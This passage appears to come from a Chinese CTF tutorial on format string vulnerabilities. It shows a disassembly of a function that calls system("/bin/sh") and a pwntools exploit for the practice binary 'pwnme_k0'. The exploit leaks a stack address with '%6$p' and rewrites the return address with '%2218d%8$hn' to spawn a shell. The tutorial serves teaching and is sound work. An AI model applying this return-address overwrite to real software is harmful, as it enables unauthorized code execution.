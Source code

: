 ```assembly
.text:00000000004008A6 sub_4008A6      proc near
.text:00000000004008A6 ; __unwind {
.text:00000000004008A6                 push    rbp
.text:00000000004008A7                 mov     rbp, rsp
.text:00000000004008AA <- here         mov     edi, offset command ; "/bin/sh"
.text:00000000004008AF                 call    system
.text:00000000004008B4                 pop     rdi
.text:00000000004008B5                 pop     rsi
.text:00000000004008B6                 pop     rdx
.text:00000000004008B7                 retn
```

#### 利用程序
```python
from pwn import *
context.log_level="debug"
context.arch="amd64"

sh=process("./pwnme_k0")
binary=ELF("pwnme_k0")
#gdb.attach(sh)

sh.recv()
sh.writeline("1"*8)
sh.recv()
sh.writeline("%6$p")
sh.recv()
sh.writeline("1")
sh.recvuntil("0x")
ret_addr = int(sh.recvline().strip(),16) - 0x38
success("ret_addr:"+hex(ret_addr))


sh.recv()
sh.writeline("2")
sh.recv()
sh.sendline(p64(ret_addr))
sh.recv()
#sh.writeline("%2214d%8$hn")
#0x4008aa-0x4008a6
sh.writeline("%2218d%8$hn")

sh.recv()
sh.writeline("1")
sh.recv()
sh.interactive()
```

## 堆上的格式化字符串漏洞

### 原理
